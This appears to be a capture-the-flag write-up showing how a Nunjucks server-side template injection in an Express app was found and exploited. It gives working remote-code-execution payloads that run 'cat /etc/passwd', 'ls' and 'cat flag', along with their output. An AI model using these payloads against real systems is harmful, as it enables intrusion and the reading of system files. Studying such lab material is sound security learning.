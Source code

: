 # Hey h3ck3r!

Description: May I know your name?
Author: [Av4nth1ka](https://twitter.com/AvanthikaAnand1?t=U4sSUyEOg7VPPZ_0S6LybQ&s=09)

Solution:

So, this is a very basic Node Server-Side Template Injection challenge.

First we get a page with a field to enter our username.

So, if we enter any name in the username field we get a message as “Hello <your-name>”.

So, we can see that whatever contents we give in the field will be displayed along with Hello.

So, a thing which we can try in such cases is SSTI.

Lets try a basic payload: {{2*2}}

Yes!! We can confirm that this page is vulnerable to SSTI from the above case. Looking at the response headers, we can see there is a header as **`x-powered-by:** Express`

So, we know that Express is a node-js web application framework. So this a node SSTI vulnerability. Next we need to find which template this application is using in order to craft payload.

There is a number of templates in Nodejs. Lets try with a payload of any template.

I got an error like this:

Template render error: (unknown path) [Line 6, Column 23]
  unexpected token: :
    at Object._prettifyError (/node_modules/nunjucks/src/lib.js:36:11)
    at Template.render (/node_modules/nunjucks/src/environment.js:538:21)
    at Environment.renderString (/node_modules/nunjucks/src/environment.js:380:17)
    at Object.renderString (/node_modules/nunjucks/index.js:99:14)
    at getHTML (/home/index.js:18:21)
    at app.post (/home/index.js:27:16)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at next (/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)

There was an error in rendering the template. Also we can see something called `nunjucks`. When we search for it, we can see that it a template in node-js vulnerable to SSTI.

Read more about nunjucks: 

Lets try using the following payload to dump the data in /etc/passwd.

payload:  `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')")()}}`

We get the following output:
```
 Hello root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false node:x:1000:1000::/home/node:/bin/bash
 ```

So, yeah our payload works now! Lets try to dump the files in the current directory, Now we need to find where the flag is located.

payload: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls')")()}}`

So, we got the files in the current directory.

`Dockerfile flag index.js node package-lock.json package.json`

Lets try to print the contents in the flag file.

payload: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag')")()}}`

So we got the flag!!

Flag: `shaktictf{ohh!!!_nuunjucksssss_ssti}`
